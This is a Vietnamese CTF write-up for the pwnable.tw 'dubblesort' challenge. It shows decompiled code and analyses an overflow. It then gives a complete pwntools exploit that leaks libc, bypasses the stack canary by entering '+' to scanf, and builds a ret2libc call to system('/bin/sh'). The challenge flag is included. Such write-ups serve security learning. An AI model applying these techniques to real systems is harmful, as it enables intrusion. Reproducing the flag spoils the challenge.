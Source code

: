 # dubblesort

## ida 

- **main**

```c 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int total; // eax
  unsigned int *number; // edi
  unsigned int i; // esi
  unsigned int j; // esi
  int result; // eax
  unsigned int idx; // [esp+18h] [ebp-74h] BYREF
  unsigned int array[8]; // [esp+1Ch] [ebp-70h] BYREF
  char buf[64]; // [esp+3Ch] [ebp-50h] BYREF
  unsigned int canary; // [esp+7Ch] [ebp-10h]

  canary = __readgsdword(0x14u);
  setup();
  printf(1, (int)"What your name :");
  read(0, buf, 64u);
  printf(1, (int)"Hello %s,How many numbers do you what to sort :");
  __isoc99_scanf((int)"%u", (int)&idx);
  total = idx;
  if ( idx )
  {
    number = array;
    for ( i = 0; i < idx; ++i )
    {
      printf(1, (int)"Enter the %d number : ");
      fflush(stdout);
      __isoc99_scanf((int)"%u", (int)number);
      total = idx;
      ++number;
    }
  }
  doublesort(array, total);
  puts("Result :");
  if ( idx )
  {
    for ( j = 0; j < idx; ++j )
      printf(1, (int)"%u ");
  }
  result = 0;
  if ( __readgsdword(0x14u) != canary )
    exit_func();
  return result;
}
```
- **doublesort** 

```c 
unsigned int __cdecl sub_931(unsigned int *a1, int a2)
{
  int v2; // ecx
  int i; // edi
  unsigned int v4; // edx
  unsigned int v5; // esi
  unsigned int *v6; // eax
  unsigned int result; // eax
  unsigned int v8; // [esp+1Ch] [ebp-20h]

  v8 = __readgsdword(0x14u);
  puts("Processing......");
  sleep(1u);
  if ( a2 != 1 )
  {
    v2 = a2 - 2;
    for ( i = (int)&a1[a2 - 1]; ; i -= 4 )
    {
      if ( v2 != -1 )
      {
        v6 = a1;
        do
        {
          v4 = *v6;
          v5 = v6[1];
          if ( *v6 > v5 )
          {
            *v6 = v5;
            v6[1] = v4;
          }
          ++v6;
        }
        while ( (unsigned int *)i != v6 );
        if ( !v2 )
          break;
      }
      --v2;
    }
  }
  result = __readgsdword(0x14u) ^ v8;
  if ( result )
    exit_func();
  return result;
}
``` 

## Analysis 

- nhìn sơ qua thì thấy có lỗi OOB và BOF 
- hàm doublesort đơn giản là sắp xếp lại number từ bé đến lớn
- nhập vào hàm buf rồi in ra , khả năng cao có thể leak được addr => leak libc 

![image](https://github.com/gookoosss/CTF/assets/128712571/9cfe3c0d-521b-4fd2-889c-8c305cb8f8dc)

- checks thì thấy có canary , khả năng cao ta phải tìm cách bypass rồi 

## Exploit 

- đầu tiên làm cái dễ nhất là leak libc cái 

```c 
p.sendafter(b'name :', b'a'*16)
p.recvuntil(b'a'*16)
libc.address = u32(p.recv(4))  - 0x8f82f
print(hex(libc.address))
system  = libc.sym.system
binsh = next(libc.search(b'/bin/sh\0'))
print(system)
print(binsh)
``` 
- có được libc rồi thì ta debug tìm cách bypass canary 

![image](https://github.com/gookoosss/CTF/assets/128712571/ae89428d-d1cc-474f-831a-5503d1d9a58c)

- canary cách edi là 0x60 byte(96), ta chia 4 thì ra 24, vậy canary nằm ở number 25
- như bài Bad grades mà ta từng làm, bypass qua canary thì ta chỉ cần nhập dấu '.' , debug thử xem sao

```python 
for i in range(24):
    p.sendlineafter(b'number : ', b'1')

p.sendlineafter(b'number : ', b'+')
```
- deee đúng như ta dự đoán thì canary ko thay đổi, nhưng mà có 1 vấn đề lớn đó là những lần nhập sau đó sẽ ko nhận giá trị vào stack(mặc dù vẫn nhập được nhưng stack như cũ ko hề thay đổi)
- sau một hồi research thì mình cũng hiểu ra 
- khác với bài Bad grades ta từng làm là scanf() có format là %llf (long long) và ta sử dụng dấu '.' để bypass, còn trong chall này thì scanf() có format là %u (unsigned int) nên ta phải dùng dấu '+' để bypass canary
- sau khi giải quyết được canary thì tìm cách để lấy shell, đơn giản là sử dụng BOF
- nhưng mà còn 1 vấn đề khác nảy sinh ra, đó là hàm doublesort() sẽ sắp xếp các giá trị stack của number từ bé đến lớn
- điều này vô tình làm dữ liệu ta nhập vào bị đảo lộn 
- may mắn thay binsh > system > canary trong mọi trường hợp 
- ta tính được offset đến rip là 33
- thế nên sau khi bypass canary ta sẽ nhập 8 lần system, 7 lần để tạo padding tránh sort và lần cuối là orw rip
```c 
for i in range(8):
    p.sendlineafter(b'number : ', str(system))
```
- còn binsh ta sẽ để đâu đây  

![image](https://github.com/gookoosss/CTF/assets/128712571/9da86236-91a9-4c0c-b7b3-7c7b5563fb93)


- đọc hàm system thì thấy esp - 0xc(12byte), rồi + 0x10(16byte) để gán vào eax, hmm vậy thì ta sẽ đặt 2 lần binsh sau system để lấy shell 

![image](https://github.com/gookoosss/CTF/assets/128712571/2e280c81-a959-4919-847e-99d50b08acc7)

- dee và cuối cùng ta cũng có flag  

![image](https://github.com/gookoosss/CTF/assets/128712571/9457a070-aa2f-4458-940b-ed4da792664d)


## script 

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./dubblesort_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe

p = process([exe.path])
p = remote('chall.pwnable.tw', 10101)

# gdb.attach(p, gdbscript = '''
# b*main+85
# b*main+133
# b*main+210
# c
# ''')

# input() 

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)


# 0x8f82f
# p.sendafter(b'name :', b'a'*16)
# p.recvuntil(b'a'*16)
# libc.address = u32(p.recv(4))  - 0x8f82f
# print(hex(libc.address))
# system  = libc.sym.system
# binsh = next(libc.search(b'/bin/sh\0'))
# print(system)
# print(binsh)
# p.sendline(b'35')

sa(b'name :',b'a'*0x1d)
p.recvuntil(b'a'*0x1d)
libc_leak = u32(b'a' + p.recv(3))
libc.address = libc_leak - 0x61 - 0x1b0000
info('libc leak: ' + hex(libc_leak))
info('libc base: ' + hex(libc.address))

system  = libc.sym.system
binsh = next(libc.search(b'/bin/sh\0'))

p.sendline(b'35')

for i in range(24):
    p.sendlineafter(b'number : ', b'1')

p.sendlineafter(b'number : ', b'+')

for i in range(8):
    p.sendlineafter(b'number : ', str(system))

for i in range(2):
    p.sendlineafter(b'number : ', str(binsh))


p.interactive()

# FLAG{Dubo_duBo_dub0_s0rttttttt}
``` 

## Flag  

FLAG{Dubo_duBo_dub0_s0rttttttt}
